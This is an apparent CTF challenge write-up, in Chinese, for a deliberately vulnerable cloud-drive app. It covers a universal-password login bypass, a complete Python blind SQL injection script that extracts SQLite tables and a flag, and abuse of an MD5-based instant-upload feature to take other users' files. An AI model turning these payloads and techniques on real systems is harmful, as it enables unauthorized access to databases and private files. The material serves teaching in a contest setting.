





# 漏洞百出的FAST网盘！

## 缘起

临近新生赛，koali绞尽脑汁都没想到要出什么题，直到想起某一次打比赛遇到的网盘，一拍脑袋决定也出一个网盘。那段时间刚好pyy在搞amis，恳切地希望koali用一下他的amis_helper，并为这个网盘提出了建设性的意见，于是决定超前试用一下。

考虑到是作为新生赛题，在希望大伙学到一点东西的同时，又不能太为难大家，于是从最简单的万能密码起手，再到没有过滤的SQL盲注；最后一问的秒传思路比较清奇，不太容易想到（别打我，打pyy），不过看完wp应该会有一种恍然大悟的感觉(●'◡'●)确信！


## 预期解

### 什么什么，万能密码？

如题，直接通过万能密码登录


因为背后是个sqlite，默认注释采用`--`的形式，输`#`会给你报错。

### babySQL!

简单的SQl盲注。后来给了Hint说flag在数据库里，所以做法是从用户名密码这个位置注入，把数据库里面的东西都注出来就好辣，下面附上盲注脚本：

```python
import requests

cookies = {}
headers = {}
json_data = {
    'passwd': 'a',
    'uname': 'a',
}
payload = ""
url = ""

def crack_sql():
    flag = ''
    for i in range(1, 500):
        low = 32
        high = 128
        mid = (low + high) // 2
        while (low < high):
            # payload = "1' or substr((select hex(group_concat(name)) from sqlite_master where type = 'table'),{0},1)>'{1}'/*" . format ( i , chr ( mid )) # 注表名
            # payload = "1' or substr((select hex(group_concat(sql)) from sqlite_master where name = 'flag2'),{0},1)>'{1}'/*" . format ( i , chr ( mid )) # 注出创建时的sql语句，也就是注出列
            payload = "1' or substr((select hex(group_concat(flag)) from flag2),{0},1)>'{1}'/*" . format(i, chr(mid)) # 注出flag
            json_data = {
                "uname": payload,
                "passwd": 'pyy'
            }
            res = requests.post(url,cookies=cookies, headers=headers, json=json_data, verify=False)

            if '登录成功' in res.text:
                low = mid + 1
            else:
                high = mid
            mid = (low + high) // 2
        if (mid == 32 or mid == 127):
            break
        flag = flag + chr(mid)
        print(flag)

    print('\n' + bytes .fromhex(flag) . decode('utf-8'))


if __name__ == "__main__":
    crack_sql()
```

### 好快的传

这一问需要在注出数据库的基础上才能做，并且可能需要亿点点的脑洞以及大胆的尝试。

数据库里的表有：`amis,flag2,user,file,user_file`，可以看到`file`表里面有两个字段：

```sql
sql.db> select * from file;
+----+-----------+----------------------------------+
| id | filename  | fileMD5                          |
+----+-----------+----------------------------------+
| 1  | flag3.txt | 760b38b5e21803df4e72bf0eb443006b |
| 2  | flag1.txt | dfb076dfb501134d56e51538e5360a1e |
+----+-----------+----------------------------------+
```

你会发现数据库里面存了文件的MD5。

上传文件的时候抓个包，会发现首先过了一层秒传的校验然后再进入正常的upload接口。虽然站在做题的角度不知道这个秒传有什么用，但是你会看到它传了文件的md5和文件名进去。





在通过万能密码登陆的这个账号里，有一个flag1，我们可以尝试通过秒传接口上传一个文件名不同但md5相同的文件，查看网盘的情况。这里的msg返回是提示你秒传成功




去网盘查看，发现多出了一个文件flag111.txt，内容是flag1。



到这里可以猜测在上传相同md5文件的时候，不会经过upload，而是直接通过秒传将文件链接到当前用户目录下，导致文件泄露。

所以同样，我们可以考虑将flag3的md5发给秒传，然后在网盘里下载下来就好辣~



如果事先知道[秒传](https://www.helloweba.net/php/636.html),应该一眼就看出来了，如果不知道的话...只能靠脑洞和尝试了。

```
r00t2023{异世相遇,尽享美味!}
```

## 写在最后

虽然感觉题出完的时候思路非常妙，但写wp再复现一遍的时候发现这题有bug，我们没有给每个用户开独立的环境，所相当于如果有一个人拿到flag3链接过来，所有的人都拿到flag了...

（还好没人做出来ヾ(•ω•`)o

源码漏洞百出，大家将就着看。koali的代码水平并不好，还请多多包涵捏~
